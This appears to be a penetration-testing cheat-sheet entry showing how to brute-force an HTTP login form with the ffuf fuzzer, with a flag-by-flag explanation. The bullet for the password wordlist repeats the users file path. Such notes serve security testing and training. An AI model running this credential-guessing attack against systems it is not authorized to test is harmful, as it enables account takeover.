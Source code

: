 # Password Attacks

### Brute force HTTP login with ffuf:

1. save request as `request.txt`. replace username and password with USERFUZZ, PASSFUZZ

{% code overflow="wrap" %}
```sh
ffuf -request request.txt -request-proto http -mode clusterbomb -w /path/to/users/file.txt:USERFUZZ -w /path/to/password/file.txt:PASSFUZZ -mc 200
```
{% endcode %}

* `-request request.txt` is the example request for FFUF to follow
* `-request-proto` the protocol to use
* `-mode clusterbomb` use clusterbomb mode with the given inputs
* `-w /path/to/users/file.txt:USERFUZZ` insert the words from this word list in the `"username":"USERFUZZ"` placeholder
* `-w /path/to/users/file.txt:PASSFUZZ` insert the words from this word list in the `"password":"PASSFUZZ"` placeholder
* `-mc 200` sucessful logins will match the HTTP 200 status code



